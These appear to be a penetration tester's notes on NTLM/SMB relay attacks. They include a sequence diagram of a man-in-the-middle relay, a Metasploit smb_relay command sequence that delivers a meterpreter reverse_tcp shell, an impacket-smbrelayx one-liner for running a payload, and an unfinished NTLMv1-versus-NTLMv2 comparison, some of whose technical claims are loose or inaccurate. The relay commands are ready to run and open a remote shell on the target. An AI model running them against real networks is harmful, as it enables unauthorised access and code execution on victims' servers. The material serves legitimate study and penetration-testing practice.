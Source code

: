 
```mermaid
sequenceDiagram
	participant User
	participant Attacker
	participant TargetServer
	autonumber
	
	Note over Attacker: Attacker is MitM
	Note over Attacker:	waits until someone in the network<br>tries to authenticate to TargetServer
	Note over Attacker: Selects target
	
	User -) Attacker: Tries to authenticate<br>Sends NTLM Negotiate
	Note over Attacker: Attackers intercepts
	Attacker -) TargetServer: Attacker forwards NTLM Authenticate<br>on behalf of user
	TargetServer -) Attacker: Responds with the NTLM Challenge
	Attacker -) User: Forwards the challengeto User
	Note over User: Encrypts challenge with User's password hash
	User -) Attacker: Sends encrypted challenge
	Attacker -) TargetServer: Forwards challenge response
	TargetServer -) Attacker: Server grants access
	User -) Attacker: Attacker sends<br>Acces Denied error
	Attacker -) TargetServer: Attacker acces server resources
```

## $ msf > smb_relay
```bash
msfconsole
use exploit/windows/smb/smb_relay
set SRVHOST 172.16.5.101
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 172.16.5.101
set SMBHOST 172.16.5.10
exploit
```
## $ impacket_smbrelayx
```bash
$ impacket-smbrelayx -h <TargetServerIP> [-e <file>] # SMB relay attack when MitM, [execute <file>(msfvenom payload)] 
```
## $ responder
![[responder (NTLM relay attack)]]
# Changes in NTLMv2 vs NTLMv1:

NTLMv2 was introduced as an improvement over NTLMv1 to address several security weaknesses.

1. **Challenge Generation:**
	- NTLMv1 uses a fixed 8-byte challenge, making it susceptible to attacks
	- NTLMv2 employs a dynamic challenge generated by the server, enhancing security.
1. **Hash Algorithm:**
	- NTLMv1 relies on a relatively weaker hash algorithm, making it vulnerable to rainbow table attacks.
	- NTLMv2 incorporates a more secure hash algorithm, making rainbow table attacks less effective.
1. **Timestamp Inclusion:**
	- NTLMv1 does not include a timestamp in the Type 3 message, limiting its resistance against replay attacks.
	- NTLMv2 includes a timestamp in the response, mitigating replay attacks and enhancing overall security.
1. **Session Security:**
	- NTLMv1 lacks session security features, making it susceptible to various attacks.